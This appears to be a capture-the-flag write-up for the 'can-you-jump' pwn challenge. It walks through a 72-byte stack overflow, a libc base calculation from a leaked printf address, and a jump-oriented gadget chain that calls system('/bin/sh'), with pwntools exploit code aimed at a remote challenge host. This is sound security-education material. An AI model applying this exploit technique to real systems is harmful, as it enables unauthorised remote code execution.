



# can-you-jump - CTF Writeup

**Challenge Name:** can-you-jump  
**Description:** How far can you jump?

## Overview

We are provided with 2 files: the `can-you-jump` program binary and the libc. We will have to pwn it on a remote server in order to get the flag. Given the name and the description, this will be a JOP (Jump Oriented Programming) challenge - a challenge where we need to find `jmp` gadgets in order to pwn the machine.

## Initial Analysis

Let's first run the binary and see what it does.



Running the binary we see that we are given the `printf` address and then we are prompted to input something. The input address is given so we can calculate the libc base in order to further calculate the `system` and `binsh_string` addresses. We have the libc so we know all the offsets. It should be easy to calculate the real addresses of libc, system and binsh_string.

Before doing that, in order to jump through the program we need to find the buffer offset. How many bytes do we need to write in order to get to the RIP register where we can overwrite the return address of the function?

## Finding the Buffer Offset

We will analyze the binary using radare2 and look for the buffer.



As we can see in the instruction at address `0x004006be`, the `buf` variable is loaded into `rax`, then into `rsi` and the `read` function is called with 256 bytes into `edx`, meaning it can read up to 256 bytes. 

Looking into the `buf` variable declaration at the top of the picture: `var void *buf @ rbp-0x40`, the buf variable is at `rbp-0x40` which means it holds up to 64 bytes. So the `read` function reads up to 256 bytes into a 64 bytes buffer, meaning we can easily overflow this and return where we want. 

We would need 64 bytes to get to `rbp` and then +8 in order to get to RIP, so **72 bytes total**. What we write after 72 bytes are addresses where we want to jump to.

## Exploit Development - Part 1: Leaking Addresses

We will start crafting the first part of the exploit where we will:
- Get the leaked printf address
- Find the offset of printf in libc
- Leak the libc base (`printf_address - offset_address`)
- Leak the system address in libc (`system_offset + libc_base`)
- Leak the bin sh string address in libc (`binsh_offset + libc_base`)
- Fill the buffer with 72 bytes

The first part of the exploit:

```python
from pwn import *

p = remote("34.185.160.224", 32226)

# define the buffer offset
buffer_fill = b"A" * 72

# get the offsets from libc
printf_offset = 0x64f70
system_offset = 0x4f550
binsh_offset = 0x1b3e1a

p.recvn(10)  # receive the first output
p.recvuntil(b": ")
printf_addr = int(p.recvuntil(b'\n'), 16)  # get the printf address

# calculate libc base address and the real addresses of system and binsh
libc_base_address = printf_addr - printf_offset
system_addr = libc_base_address + system_offset
binsh_addr = libc_base_address + binsh_offset
```

## Exploit Development - Part 2: Finding Gadgets

Now, what we need to do is find gadgets. The use of gadgets should ultimately let us:
- Load binsh into `rdi`
- Call `system`

After a careful look, we found gadgets in libc and not in the binary itself. The gadgets found are:
- `pop rdi ; jmp rax` → will pop the bin sh string into rdi and jmp to rax where the system function will be already stored
- `pop rax ; ret` → will pop the system function into rax and ret to `pop rdi ; jmp rax`

For these we will also need to calculate their real addresses as the libc base is dynamic:
- `pop rdi ; jmp rax` address (offset + libc base)
- `pop rax ; ret` address (offset + libc base)

### Payload Construction

The payload will need to be:
1. Fill the buffer (send 72 bytes until RIP)
2. Return to `pop rax ; ret` gadget
3. System address (which will be popped into rax)
4. Return to `pop rdi ; jmp rax` (will pop binsh into rdi and then jump to system function which will be called)
5. Bin sh string address

The second part of the exploit:

```python
# calculate addresses for libc gadgets
pop_rdi_jmp_rax_address = pop_rdi_jmp_rax_offset + libc_base_address
pop_rax_ret_address = pop_rax_ret_offset + libc_base_address

# construct payload with gadgets from libc
payload = buffer_fill + p64(pop_rax_ret_address) + p64(system_addr) + p64(pop_rdi_jmp_rax_address) + p64(binsh_addr)

p.sendline(payload)
p.interactive()
```

## Success

Running this will get remote control over the machine from where we can reveal the flag.

